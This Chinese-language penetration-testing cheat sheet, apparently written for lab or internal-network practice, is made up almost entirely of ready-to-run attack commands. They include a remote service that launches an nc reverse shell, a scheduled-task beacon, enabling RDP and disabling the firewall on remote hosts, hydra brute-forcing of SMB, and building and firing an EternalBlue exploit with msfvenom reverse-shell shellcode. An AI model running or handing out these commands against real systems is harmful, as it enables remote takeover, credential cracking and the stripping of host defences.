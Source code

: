   
第一种上线上线方法：创建nc反弹shell上线  

```
sc \\WIN-ENS2VR5TR3N create ncshell binpath= &#34;c:\nc.exe  192.168.183.129 1234 -e cmd&#34;
sc \\WIN-ENS2VR5TR3N start ncshell

```

  
第二种方法：添加计划任务上线  

```
shell at \\192.168.138.138 22:10:00 c:\win7beacon.exe

```

  
放行3389端口  

```
netsh advfirewall firewall add rule name=&#34;Remote Desktop TCP&#34; dir=in action=allow protocol=TCP localport=3389

```

  
修改注册表，设置允许远程登录  

```
reg add &#34;HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server&#34; /v fDenyTSConnections /t REG_DWORD /d 0 /f

shutdown /r /t 0

```

  
域内SMB爆破  

```
proxychains hydra -l Administrator -P pass.txt \
  -s 445 -t 4 -vV -m &#34;SMB&#34; \
  smb://192.168.138.138

```

  
创建计划任务执行命令  

```
shell at \\192.168.93.20 23:16:00 'netsh advfirewall set allprofiles state off'

```

### windows渗透  
  
手工干永恒之蓝，脚本利用以及shellcode生成和使用  

```
git clone https://github.com/worawit/MS17-010.git
nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
nasm -f bin eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin
msfvenom -p windows/x64/shell_reverse_tcp LPORT=2222 LHOST=192.168.93.100 --platform windows -a x64 --format raw -o sc_x64_payload.bin
msfvenom -p windows/shell_reverse_tcp LPORT=2222 LHOST=192.168.183.129 --platform windows -a x86 --format raw -o sc_x86_payload.bin
cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin
cat sc_x86_kernel.bin sc_x86_payload.bin > sc_x86.bin
python eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
proxychains python ../eternalblue_exploit7.py 192.168.183.149 sc_all.bin

```
